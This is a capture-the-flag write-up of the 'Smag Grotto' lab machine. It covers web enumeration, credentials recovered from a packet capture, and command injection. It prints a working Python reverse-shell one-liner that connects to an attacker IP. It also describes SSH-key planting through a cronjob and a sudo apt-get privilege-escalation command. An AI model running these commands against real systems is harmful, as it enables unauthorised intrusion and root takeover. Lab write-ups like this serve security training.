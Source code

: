 # Smag Grotto

10 July 2021

---

## Index
- [Enumeration](#enumeration)
- [Reverse Shell](#reverse-shell)
- [Priviledge Escalation](#priviledge-escalation)

---

```bash
export IP=10.10.94.23
```

### Enumeration

```bash
$ nmap -sC -sV -v $IP -oN nmap/initial.nmap
```

Ports:
```
22 ssh
80 http
```

Now enumerating the website with:

```bash
$ gobuster dir -t 64 -u $IP -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .txt,.php,.html -o gobuster/dir_med_ini.txt
```

We notice a strange directory `/mail/` which has a wireshark capture file that is downloadable for us to explore.
Analysing the packet we notice two major things.
* Firstly, a hostname `development.smag.thm`
* Secondly, user credentials with which to login with

`helpdesk:cH4nG3M3_n0w`

Adding the hostname to `/etc/hosts` and using those credentials to login with, and are greeted with a splash page with the ability to send commands.

![splashpage](./.assets/splashpage.png)

Initially, I tried `whoami` and `ls` but no output was returned. I then opened tcpdump.

```bash
$ tcpdump -i utun1 icmp
```

And I could receive pings! But I couldn't access the commands anymore and it was stuck pinging me. So after restarting the machine I set about creating a reverse shell with which I could access the box.

### Reverse Shell

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<<IP>>",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I now had a shell to access the machine with and we can begin enumerating the machine to escalate priviledges. I kicked off with good old linpeas.
It quickly found a cronjob which would concatenate a backup of jake's public ssh key to his `.ssh/` folder. We can generate a new ssh key pair and overwrite the public one with ours and log in with our newly generated ssh key

```bash
$ ssh-keygen -f jake
```

### Priviledge Escalation

And now we wait for the cronjob to overwrite the file...
And one minute of waiting later, we can now login in as jake! And grab the user flag too.

Now we check for sudo permissions and notice that we can `sudo apt-get` without need of a password. 

![sudo apt-get](./.assets/sudo_perms.png)

Consulting gtfobins, we can run:

```bash
$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

To escalate priviledges! And nab the root flag!

And we are _**complete!**_

Enjoyable and straight-forward room.

![smag grotto](./.assets/smag_grotto.png)
